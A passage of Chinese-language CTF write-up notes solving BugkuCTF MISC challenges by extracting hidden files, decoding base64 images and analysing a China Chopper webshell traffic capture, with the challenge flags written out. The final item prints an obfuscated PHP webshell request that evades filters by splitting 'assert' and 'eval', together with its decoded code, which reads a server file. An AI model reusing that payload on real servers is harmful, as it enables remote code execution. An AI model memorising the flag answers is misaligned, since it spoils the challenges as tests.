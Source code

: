 	解答：
		
		conf.bin 看来是路由器配置文件
		上工具 routerpassview,查找username，wanpppconnection模块处定义宽带连接的配置信息
		flag{053700357621}

9. 隐写2 60  
	
	解答

		图种
		binwalk C:\Users\admin\Desktop\bugkuctf\MISC\9Welcome_.jpg
		binwalk -e C:\Users\admin\Desktop\bugkuctf\MISC\9Welcome_.jpg
		dd if=C:\Users\admin\Desktop\bugkuctf\MISC\9Welcome_.jpg of=C:\Users\admin\Desktop\bugkuctf\MISC\9Welcome_.zip skip=52516 bs=1
		根据提示JQK，键盘密码：？？？

10. 多种方法解决 60
	>在做题过程中你会得到一个二维码图片
	>http://120.24.86.145:8002/misc/3.zip

	解答：
		
		C:\fakepath\KEY.jpg
		解压zip,得到key.exe,用notepad打开，发现是图片的base64编码格式
		http://imgbase64.duoshitong.com/
		还原得到二维码，扫描二维码得到flag
		https://cli.im/deqr
		KEY{dca57f966e4e4e31fd5b15417da63269}
		
11. linux 80
	>http://120.24.86.145:8002/misc/1.tar.gz
	>linux基础问题

	解答：

		tar解压1.tar.gz文件
		tar命令及参数小结

		binwalk分析文件，发现是ext文件系统，怀疑是linux磁盘文件
		winhex查看文件，将镜像文件转为磁盘，出现flag.txt，查看即可
		key{feb81d3834e2423c9903f4755464060b}

		
12. 中国菜刀 80
	>国产神器

	解答：

		caidao.pcapng文件，流量数据包，用wireshark打开
		由于是菜刀的数据包，因此筛选http,post,得到菜刀的连接数据和下载数据，将数据字节流导出为zip格式

		123=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc"."OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7JEY9IkM6XFx3d3dyb290XFxmbGFnLnRhci5neiI7JGZwPUBmb3BlbigkRiwncicpO2lmKEBmZ2V0YygkZnApKXtAZmNsb3NlKCRmcCk7QHJlYWRmaWxlKCRGKTt9ZWxzZXtlY2hvKCdFUlJPUjovLyBDYW4gTm90IFJlYWQnKTt9O2VjaG8oIlhAWSIpO2RpZSgpOw%3D%3D'));\");")); 

		@ini_set("display_errors","0");@set_time_limit(0);if(PHP_VERSION<'5.3.0'){@set_magic_quotes_runtime(0);};echo("X@Y");$F="C:\\wwwroot\\flag.tar.gz";$fp=@fopen($F,'r');if(@fgetc($fp)){@fclose($fp);@readfile($F);}else{echo('ERROR:// Can Not Read');};echo("X@Y");die();
